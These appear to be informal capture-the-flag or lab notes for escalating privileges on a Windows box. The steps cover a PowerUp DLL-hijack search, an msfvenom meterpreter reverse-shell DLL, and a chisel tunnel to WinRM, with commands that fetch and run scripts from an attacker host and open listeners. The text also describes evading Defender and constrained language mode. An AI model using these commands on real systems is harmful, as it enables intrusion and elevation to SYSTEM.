 ![kefwlkfqwq](kefwlkfqwq.PNG)

Make a .exe msfvenom shell or nishang

then make a ddl that runs when 

using powerup to find missing dll to hijack

```
IEX(New-Object Net.WebClient).downloadstring("http://10.10.14.128/PowerUp.ps1")
Find-ProcessDLLHijack
```

```
msfenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.128 lport=19135 -f dll > srrstr.dll
```

ROOT

Using msfvenom to make dll doesn't work. micrsoft has been imporving defender. it now detects those and possibly those amde by visual studio. we will first setup a chisel proxie so we can get around the restrictiosn and gian access to winrm locally. Then we will bypass constrained language mode. then pivot into a nc shell and drop our malious dll into C:\Users\Batman\AppData\Local\Microsoft\WindowsApps then we will run systempropertiesadvanced.exe to elvate our session to system nt authority power. You may notice the user doesn't change thats because windows 8 and above the operating system was redesigned. 

phase 1 chisel first well get a shell using the apache myfaces flaw we found. ill setup a python http server to how the files. then setup chisel locally then chisel on the target system. 

```
python3 -m http.server 80
nc -lvnp 10404
```

Run chisel on localhost

```
./chisel server -p 9001 --reverse -v
```

then we will drop the payload to disk. using invoke web request. 

```
powershell iex(IWR "http://10.10.15.136/chisel.exe" -OutFile chisel.exe)
chisel.exe client 10.10.15.136:9001 R:127.0.0.1:10001:localhost:5985
```
